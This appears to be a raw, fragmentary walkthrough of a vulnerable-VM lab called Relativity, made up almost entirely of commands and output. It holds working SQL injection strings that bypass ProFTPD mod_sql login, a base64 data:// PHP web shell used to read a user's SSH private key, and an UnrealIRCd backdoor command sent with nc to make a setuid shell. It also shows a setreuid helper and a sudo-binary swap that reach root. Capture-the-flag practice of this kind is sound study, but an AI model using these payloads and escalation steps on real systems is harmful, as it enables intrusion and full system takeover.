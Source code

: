 https://twitter.com/trbughunters/status/1279768631845494787
https://book.hacktricks.xyz/pentesting-web/file-inclusion
https://blog.clever-age.com/fr/2014/10/21/owasp-local-remote-file-inclusion-lfi-rfi/

ProFTPD 1.2.8 - 1.2.9 mod_sql, php wrappers data://text/plain;base64, 


└─$ sudo nmap -p- -sV 172.16.16.128      
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-24 18:43 CET
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.10% done
Nmap scan report for 172.16.16.128
Host is up (0.00041s latency).
Not shown: 65532 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.2.8 - 1.2.9
22/tcp open  ssh     OpenSSH 5.9 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.23 ((Fedora))
MAC Address: 00:0C:29:6A:3B:E0 (VMware)
Service Info: Host: Relativity; OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 116.09 seconds


└─$ ftp 172.16.16.128 
Connected to 172.16.16.128.
220 Welcome to Relativity FTP (mod_sql)
Name (172.16.16.128:kali): 
331 Password required for kali.
Password:
530 Login incorrect.
Login failed.%') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # 

Remote system type is UNIX.
Using binary mode to transfer files.

    print $remote "USER ')UNION
SELECT'u','p',1002,1002,'/tmp','/bin/bash'WHERE(''='\n";
}else{
    print $remote "USER ')UNION SELECT'u','p',1002,1002,'/bin/bash'
WHERE(''='\n";


USER %') and 1=1 union select 1,1,uid,gid,homedir,shell from users; --
username: 
%') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # 

https://www.securityfocus.com/bid/33722/exploit


%') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # 
%') and 1=2 union select 1,1,uid,gid,homedir,shell from users; -- -
%') union select 1,1,uid,gid,homedir,shell from users; -- -
') UNION SELECT 'u','p',1002,1002,'/tmp','/bin/bash'WHERE(''='\n";


└─$ ftp 172.16.16.128
Connected to 172.16.16.128.
220 Welcome to Relativity FTP (mod_sql)
Name (172.16.16.128:kali): %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # 
331 Password required for %').
Password:1  <== WHY ?
230 User %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # logged in.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls 
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xr-x   3 root     root         4096 Mar  5  2013 0f756638e0737f4a0de1c53bf8937a08
-rw-r--r--   1 root     root       235423 Mar  5  2013 artwork.jpg
-rw-r--r--   1 root     root          130 Mar  5  2013 index.html
226 Transfer complete.
ftp> 



http://172.16.16.128/0f756638e0737f4a0de1c53bf8937a08/index.php?page=definition.php
http://172.16.16.128/0f756638e0737f4a0de1c53bf8937a08/index.php?page=escher.php
http://172.16.16.128/0f756638e0737f4a0de1c53bf8937a08/index.php?page=artwork.php

$ echo '<?php phpinfo(); ?>' | base64
PD9waHAgcGhwaW5mbygpOyA/Pgo=
http://172.16.16.128/0f756638e0737f4a0de1c53bf8937a08/index.php?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==

$ echo '<?php system($_GET['cmd']); ?>' | base64
PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=
http://172.16.16.128/0f756638e0737f4a0de1c53bf8937a08/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=ls%20-al%20/home

total 16
drwxr-xr-x.  4 root  root  4096 Feb 25  2013 .
dr-xr-xr-x. 18 root  root  4096 Feb 28  2013 ..
drwx------.  3 jetta jetta 4096 Jul  9  2013 jetta
drwxr-xr-x.  3 mauk  mauk  4096 Jul  9  2013 mauk

==> script en python ??


view-source:http://172.16.16.128/0f756638e0737f4a0de1c53bf8937a08/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=cat%20/home/mauk/.ssh/id_rsa


└─$ ssh mauk@172.16.16.128 -i key
[mauk@Relativity ~]$ ls -al
total 28
drwxr-xr-x. 3 mauk mauk 4096 Jul  9  2013 .
drwxr-xr-x. 4 root root 4096 Feb 25  2013 ..
-rw-------. 1 mauk mauk   70 Jul  9  2013 .bash_history
-rw-r--r--. 1 mauk mauk   18 Apr 23  2012 .bash_logout
-rw-r--r--. 1 mauk mauk  193 Apr 23  2012 .bash_profile
-rw-r--r--. 1 mauk mauk  124 Apr 23  2012 .bashrc
drwxr-xr-x. 2 mauk mauk 4096 Jul  9  2013 .ssh
[mauk@Relativity ~]$ cat .bash_history

ssh -f root@192.168.144.228 -R 6667:127.0.0.1:6667 -N
su -
exit
su -


└─$ 
[mauk@Relativity ~]$ id
uid=1001(mauk) gid=1001(mauk) groups=1001(mauk)

mauk@Relativity ~]$ netstat  -ntulp
(No info could be read for "-p": geteuid()=1001 but you should be root.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:6667          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:51305           0.0.0.0:*                           -                   
udp6       0      0 :::17375                :::*                                -  


[mauk@Relativity ~]$ cat .bash_history 
ssh -f root@192.168.144.228 -R 6667:127.0.0.1:6667 -N
su -
exit
su -
[mauk@Relativity ~]$ 


ssh kali@172.16.227.1 -R 9876:brainpan2:2222
ssh -f kali@172.16.227.1 -R 6667:127.0.0.1:6667 -N
root@kali:~# ssh -L 4444:127.0.0.1:6667 mauk@192.168.80.128 



[mauk@Relativity ~]$ ssh -f -N kali@172.16.16.1 -R 6667:127.0.0.1:6667 -i key


└─$ nmap -sV  127.0.0.1 -p6667      
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-16 09:19 CET
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000053s latency).

PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
Service Info: Host: relativity.localdomain

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.23 seconds

searchsploit  -m linux/remote/13853.pl



$ echo "AB; cp /bin/sh /tmp/sh; chmod 4755 /tmp/sh" | nc 127.0.0.1 6667

[mauk@Relativity ~]$ ls -al /tmp/sh
-rwsr-xr-x 1 jetta jetta 930496 Nov 16 04:21 /tmp/sh

[mauk@Relativity ~]$ /tmp/sh -p
sh-4.2$ id
uid=1001(mauk) gid=1001(mauk) euid=1002(jetta) groups=1002(jetta),1001(mauk)

```c

void main() {
    setreuid(geteuid(), getuid());
    setregid(getegid(), getgid());
    system("/bin.bash");
}

```
sh-4.2$ gcc get.c -o get
sh-4.2$ id
uid=1001(mauk) gid=1001(mauk) euid=1002(jetta) groups=1002(jetta),1001(mauk)
sh-4.2$ ./get 
[jetta@Relativity tmp]$ id
uid=1002(jetta) gid=1001(mauk) groups=1002(jetta),1001(mauk)


[jetta@Relativity ~]$ sudo -l
Matching Defaults entries for jetta on this host:
    requiretty, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG
    LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY PATH", env_reset

User jetta may run the following commands on this host:
    (root) NOPASSWD: /home/jetta/auth_server/auth_server

[jetta@Relativity ~]$ rm -fr auth_server/
[jetta@Relativity ~]$ mkdir auth_server
[jetta@Relativity ~]$ cp /bin/bash auth_server/auth_server
[jetta@Relativity ~]$ sudo /home/jetta/auth_server/auth_server
[root@Relativity jetta]# id
uid=0(root) gid=0(root) groups=0(root)


# Secret

```php

# index.php
$blacklist_include=array("php://");
for ($i=0; $i<count($blacklist_include); $i++){
    if (strpos($_GET['page'],$blacklist_include[$i]) !== false){
        die();
    }
}
$page = $_GET['page'];
include ($page);

```